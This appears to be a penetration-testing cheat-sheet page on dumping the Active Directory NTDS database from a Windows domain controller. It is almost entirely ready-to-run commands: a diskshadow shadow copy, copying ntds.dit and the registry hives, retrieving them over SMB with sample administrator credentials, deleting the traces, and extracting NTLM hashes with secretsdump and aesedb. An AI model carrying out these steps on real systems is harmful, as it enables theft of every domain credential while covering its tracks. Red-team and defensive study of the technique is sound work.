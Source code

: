 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS




## Create Shadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}




## Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```




## Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Parse

Parse with [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntlm.in
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```
